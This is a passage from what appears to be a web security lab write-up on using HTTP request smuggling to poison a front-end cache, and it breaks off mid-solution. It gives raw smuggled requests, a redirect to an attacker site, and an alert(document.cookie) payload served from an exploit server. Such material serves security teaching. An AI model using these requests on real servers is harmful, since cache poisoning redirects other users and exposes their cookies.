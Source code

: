 HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

From this point onwards, when other users request this URL, they receive the redirection to the attacker's web site.

### Exploiting HTTP request smuggling to perform web cache poisoning

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert *document.cookie*.

**Solution**

1. Open a blog post, click "Next post", and try smuggling the resulting request with a different Host header:

    ```
    POST / HTTP/1.1
    Host: ac211f921f544b6cc0e5110b00dc0040.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 129
    Transfer-Encoding: chunked

    0

    GET /post/next?postId=3 HTTP/1.1
    Host: anything
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10

    x=1
    ```

2. Observe that you can use this request to make the next request to the website get redirected to */post* on a host of your choice.
3. Go to your exploit server, and create a *text/javascript* file at */post* with the contents:

    ```alert(document.cookie)```

4. Poison the server cache by first relaunching the previous attack using your exploit server's hostname as follows:

    ```
    POST / HTTP/1.1
    Host: ac211f921f544b6cc0e5110b00dc0040.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 193
    Transfer-Encoding: chunked

    0

    GET /post/next?postId=3 HTTP/1.1
    Host: exploit-ac321f831ff84b9fc00911b001db0081.web-security-academy.net/post
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10

    x=1
    ```

```